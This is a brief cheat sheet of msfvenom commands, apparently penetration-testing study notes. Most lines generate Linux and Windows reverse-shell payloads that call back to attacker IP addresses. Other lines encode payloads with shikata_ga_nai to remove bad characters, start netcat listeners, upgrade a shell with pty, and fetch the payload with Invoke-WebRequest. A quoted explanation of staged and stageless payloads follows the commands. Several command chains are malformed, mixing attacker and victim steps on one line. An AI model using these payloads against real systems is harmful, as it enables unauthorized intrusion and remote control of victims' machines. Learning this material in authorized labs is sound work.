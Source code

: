 ### Msfvenom
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  
msfvenom -p linux/x86/shell_reverse_tcp --list-options  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  
msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  
msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

> The shells shown in this listing all have similar names. The key difference here is the separation after the architecture, of the payload names via a '/' or '_'. The payloads that are separated with a '/' character are staged payloads.6 Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.7 Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.
